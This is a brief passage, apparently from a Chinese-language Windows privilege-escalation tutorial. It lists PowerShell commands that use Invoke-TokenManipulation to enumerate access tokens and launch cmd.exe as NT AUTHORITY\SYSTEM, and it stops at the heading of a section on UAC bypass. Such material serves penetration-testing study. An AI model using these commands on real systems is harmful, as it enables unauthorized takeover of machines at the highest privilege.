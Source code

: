 ```
import-module Invoke-TokenManipulation.ps1
```

2. 枚举 Token

```
Invoke-TokenManipulation –Enumerate
```

3. 通过获取的 Token 创建进程

```
Invoke-TokenManipulation -CreateProcess  "cmd.exe" -Username "nt authority\system"
```

# 5. UAC 绕过

## 5.1 UAC 机制
